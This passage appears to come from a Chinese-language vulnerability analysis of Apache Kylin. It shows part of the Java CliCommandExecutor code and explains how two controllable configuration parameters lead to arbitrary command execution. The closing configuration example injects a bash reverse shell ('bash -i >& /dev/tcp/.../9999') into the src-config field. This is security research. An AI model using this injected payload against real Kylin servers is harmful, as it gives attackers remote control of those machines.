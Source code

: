 ```java
                logAppender.log(line);
            }
        }

        if (Thread.interrupted()) {
            logger.info("CliCommandExecutor is interruppted by other, kill the sub process: " + command);
            proc.destroy();
            try {
                Thread.sleep(1000);
            } catch (InterruptedException e) {
                // do nothing
            }
            return Pair.newPair(1, "Killed");
        }

        try {
            int exitCode = proc.waitFor();
            return Pair.newPair(exitCode, result.toString());
        } catch (InterruptedException e) {
            Thread.currentThread().interrupt();
            throw new IOException(e);
        }
    }

}
```

由此可以得出我们可以通过这两个可控的参数，执行任意我们需要的命令，例如反弹一个shell，设置的配置为

> [!NOTE]
>
> kylin.tool.auto-migrate-cube.enabled=true
>
> kylin.tool.auto-migrate-cube.src-config=echo;bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
>
> kylin.tool.auto-migrate-cube.dest-config=shell

![](image/kylin-15.png)

